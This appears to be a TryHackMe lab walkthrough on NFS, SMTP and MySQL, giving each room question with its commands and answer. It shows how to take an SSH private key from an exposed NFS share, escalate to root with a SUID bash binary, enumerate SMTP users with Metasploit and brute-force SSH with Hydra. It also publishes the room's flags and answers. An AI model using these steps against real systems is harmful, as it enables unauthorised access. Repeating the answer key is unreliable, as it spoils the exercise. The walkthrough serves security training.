---

# **Network Services Part 2 TryHackMe Room Walkthrough**

---

### **Overview**

This lab focused on the enumeration and exploitation of common network services, including NFS, SMTP, MySQL. The objective was to understand how these services operate, identify misconfigurations, perform reconnaissance, and leverage discovered weaknesses to gain access to target systems.

### **Task 2: Understanding NFS**

**NFS (Network File System)** is a distributed file-sharing protocol that allows a client system to access files and directories located on a remote server as though they were stored locally.

NFS relies on Remote Procedure Calls (RPC) to facilitate communication between clients and servers. Permissions are typically managed using user and group identifiers rather than usernames.

#### **Questions**

**What does NFS stand for?**

**Answer:** Network File System

---

**What process allows an NFS client to interact with a remote directory as though it were a local device?**

The process of attaching a remote filesystem to the local filesystem hierarchy is known as mounting.

**Answer:** Mounting

---

**What does NFS use to represent files and directories on the server?**

NFS uses unique file handles to identify and reference files and directories.

**Answer:** File handle

---

**What protocol does NFS use to communicate between the client and server?**

NFS relies on Remote Procedure Calls for communication.

**Answer:** RPC

---

**What two pieces of user information are used to control access permissions?**

NFS permissions are based on numerical identifiers rather than usernames.

**Answer:** User ID / Group ID

---

**Can a Windows NFS server share files with a Linux client? (Y/N)**

NFS supports interoperability across multiple operating systems.

**Answer:** Y

---

**Can a Linux NFS server share files with a macOS client? (Y/N)**

NFS can be used between Linux and macOS systems.

**Answer:** Y

---

**What is the latest version of NFS?**

Research indicates that the latest major release is:

**Answer:** 4.2

### **Task 3: Enumerating NFS**

The objective of this phase was to identify exposed NFS services, enumerate available shares, mount remote filesystems locally, and investigate accessible data for potential authentication material.

#### **Questions**

**How many **ports** are open on the lab machine?**

A comprehensive Nmap scan was performed against the target:

```bash
nmap -T4 -p- $ip
```

The scan identified seven open ports.

Notably, five of these ports would not have been discovered using a standard scan without the `-p-` option.

**Answer:** 7



---

**Which port contains the NFS service?**

Reviewing the scan results revealed that NFS was running on its default port.

**Answer:** 2049

---

**Use showmount to enumerate available NFS shares. What is the name of the visible share?**

The following command was used:

```bash
/usr/sbin/showmount -e 10.114.176.211
```

The output revealed an exported share.

**Answer:** /home



---

**Mount the share locally. What is the name of the folder inside?**

A local mount point was created:

```bash
mkdir /tmp/mount
```

The NFS share was then mounted:

```bash
mount -t nfs <target-ip>:/home /tmp/mount -o nolock
```

After navigating to the mounted share:

```bash
cd /tmp/mount
ls
```

One directory was identified.

**Answer:** cappucino



---

**Which folder could contain keys that provide remote access to the server?**

Displaying hidden files revealed additional directories:

```bash
ls -la
```

Based on previous enumeration experience, the `.ssh` directory was identified as a likely location for SSH authentication keys.

**Answer:** .ssh

---

**Which key is most useful for authentication?**

Within the `.ssh` directory, SSH key files were identified.

The private key is typically the most valuable authentication artifact.

**Answer:** id_rsa

---

**Can SSH access be obtained using the discovered key? (Y/N)**

The private key was copied locally and its permissions modified:

```bash
chmod 600 id_rsa
```

The public key was reviewed to identify the associated username:

```bash
cat id_rsa.pub
```

SSH authentication was then attempted:

```bash
ssh -i key.txt <username>@<target-ip>
```

Authentication succeeded.

**Answer:** Y



### **Task 4: Exploiting NFS**

This task demonstrates privilege escalation through insecure NFS export configurations.

When root squashing is improperly configured, files created through an NFS share may retain elevated privileges, allowing privilege escalation on the target system.

#### **Questions**

**What letter is used with chmod to set the SUID bit?**

The Set User ID (SUID) permission causes a program to execute with the privileges of the file owner rather than the user running it.

The following command was used to apply the SUID bit:

```bash
chmod +s bash
```

**Answer:** s

---

**What does the permission string look like after applying the SUID bit?**

The permissions were verified using:

```bash
ls -la bash
```

Initially, the execute bit was missing and was added:

```bash
chmod +x bash
```

Rechecking the file permissions showed:

```
-rwsr-sr-x
```

**Answer:** -rwsr-sr-x

---

**What is the root flag?**

After completing the privilege escalation process outlined in the task instructions, a root shell was obtained.

The flag was retrieved using:

```bash
cat /root/root.txt
```

**Answer:** THM{nfs_got_pwned}

### **Task 5: Understanding SMTP**

#### **Overview**

**SMTP (Simple Mail Transfer Protocol)** is a communication protocol used for sending emails across networks.

SMTP works alongside **POP (Post Office Protocol)** or **IMAP (Internet Message Access Protocol)**. While SMTP is responsible for sending outgoing emails, POP/IMAP are used to retrieve and manage incoming emails.

---

#### **SMTP Server Functions**

An SMTP server is responsible for:

- Authenticating the sender of an email
- Sending outgoing email messages
- Returning undelivered emails back to the sender

If an email cannot be delivered, it is placed into an SMTP queue for later retry or failure handling.

---

#### **How SMTP Works (Simplified Flow)**

Email delivery through SMTP follows a structured process:

1. The email client connects to the SMTP server (commonly on port 25) and performs an SMTP handshake.
2. The sender provides the recipient address, message content, and attachments.
3. The SMTP server verifies sender and recipient domains.
4. If the recipient is on a different domain, the email is forwarded to the recipient’s SMTP server.
5. If the recipient’s server is unavailable, the email is placed in an SMTP queue.
6. Once delivered, the email is passed to POP/IMAP servers for retrieval by the recipient.

---

#### **Questions**

**What does SMTP stand for?**

**Answer:** Simple Mail Transfer Protocol

---

**What does SMTP handle the sending of? (plural)**

SMTP is responsible for sending electronic mail messages.

**Answer:** emails

---

**What is the first step in the SMTP process?**

The first step is establishing a connection between the email client and the SMTP server.

**Answer:** SMTP handshake

---

**What is the default SMTP port?**

SMTP typically operates on port 25.

**Answer:** 25

---

**Where is an email stored if the recipient’s server is unavailable?**

If delivery fails, the email is placed in an SMTP queue until it can be retried or discarded.

**Answer:** SMTP queue

---

**On which server does the email ultimately end up?**

Once delivered, emails are stored on POP or IMAP servers for retrieval by the user.

**Answer:** POP/IMAP

---

**Can a Linux machine run an SMTP server? (Y/N)**

Linux systems can host SMTP services.

**Answer:** Y

---

**Can a Windows machine run an SMTP server? (Y/N)**

Windows systems can also run SMTP servers.

**Answer:** Y

### **Task 6: Enumerating Server Details**

#### **Overview**

Before attempting exploitation, it is important to fingerprint the target SMTP service. This helps identify the server version, configuration details, and potential attack vectors.

In this task, **Metasploit Framework** is used to gather SMTP version information and enumerate valid system users using built-in auxiliary modules.

SMTP servers often expose user enumeration functionality through internal commands such as:

- **VRFY** → Verifies whether a username exists
- **EXPN** → Expands mailing lists and reveals user aliases

Metasploit automates this process using dedicated scanning modules.

---

#### **Questions**

**First, lets run a port scan against the lab machine, same as last time. What port is SMTP running on?**

Answer: 25



**Okay, now we know what port we should be targeting, let's start up Metasploit. What command do we use to do this?**

If you would like some more help or practice using Metasploit, TryHackMe has a module on Metasploit that you can check out here:

```bash
msfconsole
```

**Let's search for the module "smtp_version", what's it's full module name?**



```
auxiliary/scanner/smtp/smtp_version
```

---

**Great, now- select the module and list the options. How do we do this?**

```
options
```

---

**Have a look through the options, does everything seem correct? What is the option we need to set?**

```
RHOSTS
```

---

**Set that to the correct value for your lab machine. Then run the exploit. What's the system mail name?**

```
polosmtp.home
```



---

**What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.**

```
Postfix
```

---

**Let's search for the module "smtp_enum", what's it's full module name?**

```
auxiliary/scanner/smtp/smtp_enum
```

---

**What option do we need to set to the wordlist's path?**

```
USER_FILE
```

---

**Once we've set this option, what is the other essential paramater we need to set?**

```
RHOSTS
```



---

**Okay! Now that's finished, what username is returned?**

```
administrator
```

### **Task 7: Exploiting SMTP**

#### **Overview**

At this stage of the assessment, we already have key information from enumeration, including:

1. A valid username discovered from SMTP enumeration
2. The type of SMTP service and the underlying operating system
3. An additional exposed service: SSH

Since SSH is available on the target system, it becomes a primary attack vector for gaining initial access. In this task, we use **Hydra** to perform a dictionary-based brute-force attack against the SSH service using the previously discovered username.

**Hydra Overview**

Hydra is a fast and flexible password-cracking tool used for performing brute-force attacks against various network services, including SSH, FTP, HTTP, and others.

It is included by default in Kali Linux and Parrot OS and supports the use of external wordlists such as **rockyou.txt** and collections from **SecLists**.

Hydra primarily performs **dictionary attacks**, testing credentials from a predefined wordlist against a target service.

**Attack Syntax**

The following Hydra command structure was used:

```bash
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV <target-ip> ssh
```



Where:

- `t 16` → number of parallel threads
- `l USERNAME` → target username
- `P` → password wordlist
- `vV` → verbose output
- `ssh` → target service



---

#### **Questions**

**What is the password of the user we found during our enumeration stage?**

```
alejandro
```

---

**Great! Now, let's SSH into the server as the user, what is contents of smtp.txt**

```
THM{who_knew_email_servers_were_c00l?}
```



### **Task 8: Understanding MySQL**

#### **Overview**

**MySQL** is a relational database management system (RDBMS) that uses **Structured Query Language (SQL)** to manage and manipulate data.

It is one of the most widely used database systems and is commonly deployed as part of the **LAMP stack** (Linux, Apache, MySQL, PHP).

---

#### **Key Concepts**

**Database**

A database is a structured, persistent collection of data that is stored and managed efficiently for retrieval and modification.

---

**RDBMS (Relational Database Management System)**

An RDBMS is software used to create and manage databases based on a relational model.

In this model:

- Data is stored in tables
- Tables are connected through relationships
- Relationships are defined using keys (e.g., primary keys)

---

**SQL (Structured Query Language)**

SQL is the standard language used to communicate with relational databases.

MySQL, like other database systems such as PostgreSQL and Microsoft SQL Server, uses SQL syntax to perform operations such as querying, updating, and managing data.

---

**How MySQL Works**

MySQL operates using a client-server architecture:

1. A database is created to store and structure data using tables and relationships
2. Clients send requests using SQL queries
3. The MySQL server processes these requests and returns the appropriate results

The server is responsible for handling all database operations, including creation, modification, and data retrieval.

---

**Usage**

MySQL can run on multiple operating systems, including Linux and Windows.

It is widely used as a **backend database system** for websites and applications, forming a core component of the LAMP stack:

- Linux
- Apache
- MySQL
- PHP

---

#### **Questions**

**What type of software is MySQL?**

```
relational database management system
```

---

**What language is MySQL based on?**

```
SQL
```

---

**What communication model does MySQL use?**

```
client-server
```

---

**What is a common application of MySQL?**

```
back end database
```

---

**What major social network uses MySQL as their back-end database?**

```
Facebook
```